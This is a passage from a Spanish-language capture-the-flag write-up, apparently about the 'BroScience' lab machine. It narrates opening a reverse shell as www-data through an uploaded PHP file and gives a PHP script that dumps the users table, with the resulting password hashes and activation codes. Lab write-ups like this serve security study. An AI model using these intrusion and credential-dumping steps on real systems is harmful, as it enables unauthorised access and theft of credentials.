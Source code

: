 Abrimos un server en nuestra computadora.

Agregamos las **cookies** a nuestro navegador, recargamos y entramos en `https://broscience/revShellTnr1112.php` para entablar una **reverse shell** con el usuario **www-data**.

----
# Bill

Escribimos este archivo para ver los usuarios en la **db**.

```php
<?php
include_once 'includes/db_connect.php';
$res = pg_query($db_conn, 'SELECT * FROM users');
print_r(pg_fetch_all($res));
?>
```

```php
Array
(
    [0] => Array
        (
            [id] => 1
            [username] => administrator
            [password] => 15657792073e8a843d4f91fc403454e1
            [email] => administrator@broscience.htb
            [activation_code] => OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf
            [is_activated] => t
            [is_admin] => t
            [date_created] => 2019-03-07 02:02:22.226763-05
        )
    [1] => Array
        (
            [id] => 2
            [username] => bill
            [password] => 13edad4932da9dbb57d9cd15b66ed104
            [email] => bill@broscience.htb
            [activation_code] => WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2019-05-07 03:34:44.127644-04
        )
    [2] => Array
        (
            [id] => 3
            [username] => michael
            [password] => bd3dad50e2d578ecba87d5fa15ca5f85
            [email] => michael@broscience.htb
            [activation_code] => zgXkcmKip9J5MwJjt8SZt5datKVri9n3
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2020-10-01 04:12:34.732872-04
        )
    [3] => Array
        (
            [id] => 4
            [username] => john
            [password] => a7eed23a7be6fe0d765197b1027453fe
            [email] => john@broscience.htb
            [activation_code] => oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2021-09-21 11:45:53.118482-04
        )
```